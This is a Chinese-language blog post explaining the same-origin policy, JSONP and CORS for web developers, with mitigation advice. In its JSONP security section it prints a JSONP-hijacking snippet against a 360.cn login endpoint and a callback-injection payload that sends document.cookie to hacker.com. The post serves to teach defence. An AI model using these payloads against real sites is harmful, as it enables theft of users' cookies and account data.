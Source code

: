 ```yaml
---
layout: post
tags:["web"] 
title: 一篇聊透跨域

---
```


前几天面试一小哥哥，说到跨域问题，说的语焉不详的。所以将相关知识点整理了一下，成文如下：

## 什么是跨域问题

通常大家所说的跨域问题，就是脚本要访问一个别的域名的数据时，发现被浏览器阻止了，访问不了，然后想各种办法去实现这个跨域名的数据读取，就被笼统的称作**跨域问题**；但其实，跨域问题不是**跨域**，而是**跨源（cross-origin）**问题。现代浏览器里有一个叫做**同源策略**的机制，正是这个机制阻止了资源的跨域访问。那么什么是同源策略，以及为什么要有这个策略呢？

## 同源策略（Same Origin Policy）

简单的说，同源策略是浏览器的一种**安全机制**。他规定**从某一个源（服务端）加载（到浏览器端）的页面（脚本）只能*访问（向xxx发请求）*与他“*同源*”的页面的*资源***。那“同源”里的**源**又是什么意思呢？**同源是指两个URL里的：协议（protocol），端口（port），域名（hosts）完全相同**，也就是URL的Scheme一致。例如：

```html
http://abc.com  和 https://abc.com 不同源，协议不同
http://abc.com 和 http://abc.com:8080 不同源，端口不同
http://a.abc.com 和 http://b.abc.com 也不同源，域名不同
```

也就是说，上面这些页面之间都不能发送请求。你可能会感到奇怪，“我的网页的静态资源都放在cdn域名里，比如公共js，然后加载到页面执行，一点问题都没有啊”，这是不是违法了同源策略？嗯，所以同源策略里规定的“**访问**”是一个相对模糊的概念。一般来说：**内嵌一个跨源的资源是被允许的，但是读取一个跨源的资源是不允许的。**比如，你可以用`<iframe src=''/>`嵌入一个跨源的页面（当然，被嵌入的页面的服务器端可以设置`X-Frame-Options`响应头来控制自己允不允许被iframe嵌入，可以在一定程度上防止黑客制作钓鱼网站），但不能用js获得这个被嵌入的页面里的dom对象引用。 

更具体的来说，下面列出来哪些动作被允许，哪些动作不被允许。

	1、**iframe**，  一般来说，用src跨源嵌入是可以的，但不让读取里面的内容
	
	2、**css**，可以用link标签和@import来嵌入，但是要正确的设置Content-Type
	
	3、**表单**，表单可以通过action属性提交到一个跨源的目的地页面，也就是说，跨源写是允许的
	
	4、**图片**，图片可以用img标签嵌入，但是如果从一个跨源的地方读一张图片然后画到canvas上，则不允许（这相当于读了图片的内容）
	
	5、**多媒体内容**，同理，视频和音频这些内容是可以通过video和audio标签内嵌到页面上来的。
	
	6、**脚本**，脚本当然可以用script标签嵌入，但不能访问一些特定的api，比如通过XMLHttpRequest或Fetch发送跨域资源请求。

## 为什么要有同源策略？

总而言之，是搞了很多的限制。那为什么要搞这么多的限制呢，怪麻烦的。刚提到，同源策略是一个重要的安全策略。也就是说，是浏览器为了web安全而不得不搞出来的一种限制。想象一下，如果没有这个限制。一个源attacker.com的脚本可以读取xxx.bank.com页面的信息和往xxx.bank.com发请求的话。attacher就可以用脚本读取你在bank.com里的账号和密码，发起转账，等等都可以了。所以，同源策略，保护的是被跨源访问的域。这点是很多人没有彻底理解跨域问题的根源。

## 但实际就有跨源资源访问的需求怎么办？

同源策略安全是安全，但他是一刀切的方案，实际情况是真的有很多时候需要跨源访问资源：现代网站很多用域名做了垂直拆分，甚至很多本来就是公共服务，就希望被所有人访问到，比如天气预报数据等等，都被这个同源策略所阻止了。在之前，比较著名和流行的方式就是采用**JSONP**技术来实现跨源访问。

## JSONP（JSON with padding）技术

这是一种被普遍使用的，绕过浏览器同源策略的数据共享方法。他的基本思想是，在网页里插入一个`<script />`元素，用script标签的src属性加载一个跨源脚本（这是被允许的），这个脚本的服务端，将要共享的数据以JSON的格式放到一个指定名字的回调函数的入参里（with padding）传回来。页面的回调函数实现就拿到跨源的共享数据了。

```javascript
/**
* 工具函数，往页面里插入一个指定src的script标签，以发起请求
* 其实也可以发起ajax请，很多三方库（比如jQuery）都有封装
*/
function addScriptTag(src) {
  var script = document.createElement('script');
  script.setAttribute("type","text/javascript");
  script.src = src;
  document.body.appendChild(script);
}

window.onload = function () {
  // 调用工具函数，发起请求，并告诉服务端，回调函数名字叫foo
  addScriptTag('http://example.com/ip?callback=foo');
  // 服务端返回JSON格式的数据，并 放在一个叫 foo的函数调用的入参里，如下：
  // foo({"ip": "8.8.8.8"});
}

/**
* 回调函数，服务端返回的内容，会回调这个函数，并且把数据作为参数传入，这样就实现了跨源数据共享的目的
*/
function foo(data) {
  console.log('Your public IP address is: ' + data.ip);
};
```

从原理上来看，JSONP其实是一种Hacking技术，用一种巧妙的方式绕开了同源策略的限制，虽然能实现跨源访问的目的，但其实也会带来一些安全问题。

**1、CSRF（ Cross-site request forgery 跨站请求伪造）攻击**

如果通过JSONP获取的数据是敏感数据（比如用户登录之后才能读取到的数据），攻击者可以构造一个这样的请求，藏在某个页面里，如果用户在登录的情况下访问了那个页面（攻击者可以引诱被攻击者访问），就会在不知情的情况下将自己的数据泄露。比如

```html
<script>
function wooyun(v){
    alert(v.username);
  	// 这里可以干坏事，比如将用户的用户名，邮箱等发送到指定的地址， 
    // 把这坨代码放注入到360的某个子域的页面里，就等着有人上钩了
}
</script>
<script src="http://js.login.360.cn/?o=sso&m=info&func=wooyun"></script>
```

也就是说，攻击者在被攻击者不知情的情况下向某个JSONP的服务端发送了请求（如果这个请求是转账？^_^）。所以要防止这种攻击，服务端除了要验证用户的登录状态，还要验证请求的Refer，增加token校验等等。

**2、callback函数名可自定义，导致注入风险**

因为，callback参数值会作为函数名传个服务器并传回来，在浏览器端执行，如果这个参数不是一个正常的函数名，而是一个表达式，甚至是一段脚本呢？就会有问题了。比如

```javascript
script.src='/pay?callback=<srcript>$.get("http://hacker.com?cookie="+document.cookie)</script>' 
```

攻击者还可以构造一些更加精巧的callback内容，实现RFD攻击。

要防止这种攻击，第一步要做的就是对callback参数的内容做转义，第二是要对返回的内容设置`conten-type=application/json` （不能被执行）而不是`application/javascript`。

想要更安全优雅的实现跨源资源共享该怎么办呢？其实早在2014年的时候w3c就通过了**跨源资源共享（Cross-Origin Resource Sharing (CORS)）** 的标准。

## CORS（Cross-Origin Resource Sharing）跨源资源共享 技术

上文说到，**浏览器是为了保护被跨源访问的服务不被别人随意访问才不得不设置了同源策略，并且这种一刀切的方式带来了许多不便。那如果某个源的服务器明确告诉浏览器说，我这个服务是允许别人来访问的，你不用使用同源策略来禁止别人访问我，那不就没问题了**。这就是cors机制的基本原理。	

最基本的实现CORS和把大象装冰箱一样，总共分三步：

1、浏览器发现是一个跨源请求，就在请求头上加一个字段`Origin`；包括协议，域名，端口。告诉被请求的服务端说，我是谁。

2、服务器收到请求，应该检查这个Origin是不是被允许的访问来源，如果是被允许的，则在响应头上加上`Access-Control-Allow-Origin`，这个值可以是一个具体的origin，也可是是`*`表示允许所有源访问。

3、浏览器收到服务器的响应，检查是否有`Access-Control-Allow-Origin`头，如果有，才能把具体的响应体返回给请求发送者，否则报错，告诉请求发起方`access blocked by CORS policy`

其实，我们发现，CORS虽然阻止了将响应返回个请求发送者，但实际上请求是有真的发送到服务端的！所以当我们在做服务端接口的时候，一定要注意先要检查请求的Origin，再决定是否做相应的动作。以免形成事实上的攻击。这个在nginx配置上一定要注意，不能无脑的反射Origin。

**复杂请求的先导请求**

我觉得也是出于这个原因，CORS把请求分成普通请求和复杂请求（complex request），对于复杂请求（万一请求对服务端有伤害的请求？）先用一个先导请求（preflight request）去问下服务端是否接受这类请求，得到确认后再发送具体请求。先导请求是浏览器自动发送的，并且服务端可以设置缓存建议。

**用cors发送cookie？**

 除了Allow Origin这种源的白名单机制，cors还可以通过cookie实现对用户的身份认证，在请求头上加上 `credentials: 'include'` 可以让请求带上cookie发送， 为了安全考虑，cors规定如果用了，则`Access-Control-Allow-Origin`必须指定具体的值，不能为`*`


